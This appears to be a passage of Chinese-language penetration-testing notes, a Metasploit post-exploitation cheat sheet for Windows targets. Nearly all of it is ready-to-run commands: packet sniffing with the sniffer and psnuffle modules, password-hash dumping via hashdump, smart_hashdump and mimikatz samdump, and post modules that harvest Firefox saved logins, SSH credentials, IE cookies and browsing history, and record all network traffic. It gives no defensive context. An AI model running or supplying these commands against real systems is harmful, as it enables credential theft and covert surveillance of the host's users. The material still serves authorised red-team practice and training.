### 数据包抓取

msf执行

```msf
#抓包
Load sniffer
Sniffer_interfaces
sniffer_start 2
Sniffer_dump 2 1.cap
#解码
Use auxiliary/sniffer/psnuffle
Set PCAPFILE 1.cap
exploit
```

### 口令破解

msf执行

```msf
use post/windows/gather/hashdump	#system权限的meterpreter
set session 1
exploit	#结果保存在tmp目录下
use post/windows/gather/smart_hashdump
set session 1
exploit

#格式
用户名称 : RID : LM-HASH 值 :NT-HASH 值
```

```mimikatz
#Hashdump使用的是mimikatz的部分功能
Load mimikatz
#wdigest 、kerberos 、msv 、ssp 、tspkg 、livessp
mimikatz_command -h
mimikatz_command -f a::
#查询有哪些模块
mimikatz_command -f samdump::hashes
mimikatz_command -f samdump::bootkey
```

### Other

```msf
#确定目标主机是否是虚拟机：
run checkvm
#获取目标主机上的软件安装信息：
run post/windows/gather/enum_applications
#获取目标主机上最近访问过的文档、链接信息：
run post/windows/gather/dumplinks
#查看目标环境信息：
run post/multi/gather/env
#查看firefox中存储的账号密码：
run post/multi/gather/firefox_creds
#查看ssh账号密码的密文信息，证书信息：
run post/multi/gather/ssh_creds
#查看目标系统所有网络流量并且进行数据包记录：
run packetrecorder -i 0 //-i 1指定记录数据包的网卡
#读取目标主机IE浏览器cookies等缓存信息，嗅探目标主机登录过的各类账号密码：
run post/windows/gather/enum_ie
#获取到的目标主机上的ie浏览器缓存历史记录和cookies信息等都保存到了攻击主机
本地的/root/.msf4/loot/目录下
```
